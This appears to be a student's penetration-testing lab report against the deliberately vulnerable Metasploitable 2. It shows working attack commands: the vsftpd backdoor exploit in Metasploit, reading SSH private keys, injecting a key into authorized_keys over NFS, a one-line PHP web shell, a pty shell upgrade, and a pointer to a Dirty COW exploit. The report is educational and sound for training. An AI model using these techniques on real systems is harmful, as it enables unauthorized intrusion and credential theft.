# Metasploitable 2 Penetration Testing Report

**Author:** Keanrich Cordana  
**Environment:** Kali Linux vs Metasploitable 2

---

# Overview

# Metasploitable 2 Penetration Testing Report

**Author:** Keanrich Cordana  
**Environment:** Kali Linux vs Metasploitable 2

---

# Overview

This repository documents a penetration testing exercise against the intentionally vulnerable **Metasploitable 2** machine.

Objectives:

- Identify vulnerable services
- Perform enumeration
- Exploit discovered vulnerabilities
- Analyze the security impact

---

# Lab Setup

| Machine          | Role     |
| ---------------- | -------- |
| Kali Linux       | Attacker |
| Metasploitable 2 | Target   |

---

# Reconnaissance

Initial service discovery was performed using **Nmap**.

```bash
nmap -sC -sV -T4 <target-ip>
```

### Scan Result

| Port | Service | Version             |
| ---- | ------- | ------------------- |
| 21   | FTP     | vsftpd 2.3.4        |
| 22   | SSH     | OpenSSH             |
| 80   | HTTP    | Apache              |
| 111  | RPCbind | RPC service         |
| 2049 | NFS     | Network File System |

### Screenshot





---

# 1. FTP Exploitation

## Service Information

```
21/tcp open ftp vsftpd 2.3.4
```

This FTP service allows **anonymous login** and runs a vulnerable version of **vsftpd 2.3.4**, which contains a known backdoor vulnerability.

---

## Enumeration

Test FTP access:

```bash
ftp <target-ip>
```

Login attempt:

```
Name: anonymous
Password: anonymous
```

### Screenshot



---

## Exploitation

Using Metasploit:


```bash
msfconsole
```

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
```



### Result

A shell session was obtained.

```bash
whoami
```

```
root
```



Obtain credential using

```bash
ls -la
cd .ssh
cat id_dsa
```



---

# 2. RPC + SSH Exploitation

## Service Information

```
111/tcp open rpcbind
2049/tcp open nfs
22/tcp open ssh
```

RPCbind exposes several RPC services that allow attackers to enumerate system resources and network file shares.

---

# Step 1 — Service Enumeration

The tester first scans the active services on the target system.

```bash
rpcinfo -p <target-ip>
```

### Screenshot



---

# Step 2 — Accessing Shared Directories

Using the exposed NFS service, the tester can retrieve directories from the target system.

Check available NFS shares:

```bash
showmount -e <target-ip>
```

Mount the shared directory locally:

```bash
sudo mount -t nfs <target-ip>:/<shared_directory> /mnt
```

### Screenshot



---

# Step 3 — Retrieving Sensitive Files

After mounting the shared directory, the tester can browse files and retrieve sensitive information.

Example sensitive data discovered:

- SSH private keys
- system configuration files
- user account data

The tester can also identify which users have access to the server.

### Screenshot



---

# Step 4 — SSH Key Generation

To perform privilege escalation, the tester generates a new SSH key locally.

```bash
ssh-keygen
```

This creates:

```
id_rsa
id_rsa.pub
```

### Screenshot



---

# Step 5 — Inject Public Key into Target

The tester copies the generated **public key** into the target's `authorized_keys` file.

Example location:

```
/home/<user>/.ssh/authorized_keys
```

Command example:

```bash
cat id_rsa.pub >> /mnt/home/<user>/.ssh/authorized_keys
```

This allows the attacker to authenticate using the matching private key.

### Screenshot



---

# Step 6 — SSH Remote Access

After modifying `authorized_keys`, the tester can access the target system remotely.

```bash
ssh -i id_rsa <user>@<target-ip>
```

If necessary, additional options may be used:

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -i id_rsa <user>@<target-ip>
```

### Screenshot



---

# Step 7 — Post Exploitation

Once SSH access is obtained, the tester can:

- retrieve sensitive system data
- maintain persistent access (backdoor)
- perform privilege escalation
- pivot to other systems in the network

### Screenshot

## 

# 3. HTTP Web Application Exploitation

## Service Information

```
80/tcp open http Apache
```

The target system hosts a web server running **Apache with PHP support**.  
Initial testing revealed that the server exposes several insecure configurations and vulnerable web applications.

---

# Step 1 — Web Enumeration

The tester performs directory enumeration to discover hidden files and directories on the web server.

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
```

This process helps identify potentially vulnerable web applications and sensitive resources.

### Screenshot



---

# Step 2 — PHP Configuration Disclosure

During the enumeration phase, the tester discovers a **phpinfo page** which exposes sensitive server configuration information.

Accessing the page:

```
http://<target-ip>/phpinfo.php
```

The configuration reveals several insecure settings such as:

```
disable_functions: Off
open_basedir: Not configured
file_uploads: On
display_errors: On
```

These misconfigurations increase the risk of **Remote Code Execution (RCE)**.

### Screenshot



---

# Step 3 — Identifying Upload Functionality

Further inspection of the web application reveals an **upload feature** that allows files to be uploaded to the server.
Improper validation of uploaded files can allow attackers to upload malicious scripts. To ensure succed of the upload file tester must change the security level to low and use session id that have been login before

### Screenshot




---

# Step 4 — Uploading a Web Shell

The tester uploads a malicious **PHP web shell** to gain remote command execution on the server.

Example simple PHP shell:

```php
<?php system($_GET['cmd']); ?>
```

After uploading the file, the attacker can execute system commands via the browser.
Example command execution:

```
http://<target-ip>/uploads/shell.php?cmd=whoami
```

### Screenshot



---

# Step 5 — Command Execution

Once the shell is active, the tester can execute commands on the target system.
Example:

```bash
whoami
```

Output:

```
www-data
```

Check kernel version:

```bash
uname -r
```

Example output:

```
2.6.24-16-server
```
### Screenshot


tester can also do credential discovery with this command injection 


---

# Step 6 — Previlege Escalation
In this step tester using a python code (upload_shell) for automation and gain access to target shell using reverse shell. In this step tester need to open 2 tab of terminal, one for the upload_shell.py and one for python_listener. 




To gain root access in metasploitable target, according to https://www.exploit-db.com/exploits/40839, system vulnerable. So try download dirtty_cow file and execute it (in requires new password and username). Dirty cow using the vulnerabilities of the race condition target system, by targeting credential directory, it continiuously writing the new file and deleteing the old file, until the code finally suggest kernel to delete the original file permanently and change it to the new created file (new pass and username)



To improve shell interaction, the tester upgrades the shell to a pseudo-terminal.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

This allows the attacker to interact with the system more effectively.


---

# Impact

Through this vulnerability, an attacker can:

- execute commands on the server
- access web server files
- retrieve sensitive information
- potentially escalate privileges

However, in this test scenario the attacker obtained **limited access as the web server user (`www-data`)** and did not achieve full root privileges through the HTTP attack vector.

---

# Recommendation

To mitigate this vulnerability, the following security measures should be implemented:

- restrict file upload types
- validate uploaded files
- store uploaded files outside the web root
- disable unnecessary PHP functions
- configure `open_basedir`
- disable error information disclosure
- regularly update Apache and PHP

Proper input validation and server hardening are critical to preventing remote code execution vulnerabilities.

# Impact

| Service   | Result                 |
| --------- | ---------------------- |
| FTP       | Root access obtained   |
| RPC + SSH | Remote access achieved |
| HTTP      | Limited shell obtained |

The HTTP attack vector provided **limited access**, while the FTP and RPC services resulted in deeper system compromise.

---

# Conclusion

The Metasploitable 2 machine contains several critical vulnerabilities caused by:

- Outdated services
- Misconfigured network services
- Insecure web application configurations

These weaknesses allow attackers to move from **service enumeration to full system compromise**.

---

# Disclaimer

This project is created for **educational and ethical hacking practice only**.
All testing was performed on intentionally vulnerable machines in a controlled lab environment.

